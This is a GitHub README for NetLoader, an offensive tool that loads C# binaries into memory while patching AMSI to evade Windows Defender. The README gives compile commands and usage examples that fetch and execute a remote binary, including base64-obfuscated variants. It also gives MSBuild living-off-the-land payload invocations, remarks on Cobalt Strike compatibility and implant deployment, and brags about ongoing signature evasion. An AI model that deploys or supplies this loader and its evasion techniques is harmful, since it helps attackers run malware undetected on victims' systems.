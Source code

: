 # NetLoader
Loads any C# binary in mem, patching AMSI and bypassing Windows Defender

The binaries in this repo SHOULD be all clean and newly compiled from their respective GitHub repos, but feel free to compile / host your own.
(Don't consider running binaries from this repo good OPSEC) 

Latest update / signature fix was 03.06.2020, clean as a whistle
Currently doing 24/7 signature checks, so let's see how long it takes this time

Code is designed to deploy binaries from a GitHub repo, so should be straight forward.

1. Clone your own repo from this
2. Change the url on line 13 in Program.cs
3. Re-Compile / add your own binaries in /Binaries (Regex looks for .bin only!)
3. Build and enjoy!

# Compile
Changed because Defender added some signatures related to VS ressources.
(Also just way simpler)

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Usage
Deploy from remote URI

	PS D:\NetLoader> .\NetLoader.exe https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik


Deploy from local path or SMB share, note that NetLoader detects whether the input path is local or remote)

	.\NetLoader.exe --path D:\Tools\Stracciatella.bin --args whoami
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting D:\Tools\Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik


Supports base64 inputs for those long strings that usually would break stuff!

	PS D:\NetLoader> .\NetLoader.exe b64 aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik
	PS D:\NetLoader>


	PS D:\NetLoader> .\NetLoader.exe --b64 --path aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu --args d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Patching...
	[+] Patched!
	[+] Starting https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin with args whoami
	desktop-oaa0hhf\flangvik

Should be Cobalt Strike friendly ! :) 

Credits to https://twitter.com/_RastaMouse for the AMSI bypass
-> https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs

# LOLBins

Payload for MSBuild is in the repo (LOLBins) folder, might push this for varius other LOLBins aswell.

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Todo
- [ ]  Automate the build and release of many of the Sharp Tools so they automagically appear in /Binaries (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [ ]  Add some missing stuff SharpSploit and SharpShell (Need to fix some deps)
- [ ]  Propely confirm and test every current bin
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [ ]  Update with credits and links to the github repos that /Binaries are compiled from
